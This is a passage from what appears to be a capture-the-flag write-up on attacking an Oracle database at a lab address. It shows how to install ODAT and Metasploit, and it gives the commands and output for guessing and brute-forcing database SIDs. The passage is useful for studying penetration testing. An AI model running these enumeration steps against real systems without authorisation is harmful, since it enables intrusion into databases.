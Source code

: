     ```
- Oracle Database Attacking Tool (ODAT)
  - download release from github: https://github.com/quentinhardy/odat/releases/
  - unzip in `/opt`
  - added line to `~/.bashrc`: `alias odat='export LD_LIBRARY_PATH=/opt/odat-libc2.5-i686/; cd /opt/odat-libc2.5-i686/; ./odat-libc2.5-i686; cd -'`
  - There are detailed instructions on the github readme.
- metasploit
  - use this walkthrough: https://blog.zsec.uk/msforacle/

### Attack Methodology:

[This Blackhat presentation](https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf) is a good walkthrough of the steps necessary to exploit an Oracle db.

#### 1 - Identify database

Already done in nmap.

#### 2 - Identify SIDs

We really only need one valid SID, which we can get with `odat` or `metasploit`.

##### odat

Using `odat`, found two SIDs with `sidguesser`:

```

root@kali:/opt/odat-libc2.5-i686# odat sidguesser -s 10.10.10.82

[1] (10.10.10.82:1521): Searching valid SIDs
[1.1] Searching valid SIDs thanks to a well known SID list on the 10.10.10.82:1521 server
[+] 'XE' is a valid SID. Continue...
[+] 'XEXDB' is a valid SID. Continue...
100% |#####################################################################################################################################################| Time: 00:03:49
[1.2] Searching valid SIDs thanks to a brute-force attack on 1 chars now (10.10.10.82:1521)
100% |#####################################################################################################################################################| Time: 00:00:09
[1.3] Searching valid SIDs thanks to a brute-force attack on 2 chars now (10.10.10.82:1521)
[+] 'XE' is a valid SID. Continue...
100% |#####################################################################################################################################################| Time: 00:03:20
[+] SIDs found on the 10.10.10.82:1521 server: XE,XEXDB

```

##### metasploit

metasploit found a couple different SIDs:

```

msf auxiliary(admin/oracle/sid_brute) > run

[*] 10.10.10.82:1521 - Starting brute force on 10.10.10.82, using sids from /usr/share/metasploit-framework/data/wordlists/sid.txt...
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'XE'
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'PLSExtProc'
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'CLRExtProc'
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID ''
[*] 10.10.10.82:1521 - Done with brute force...
[*] Auxiliary module execution completed

```
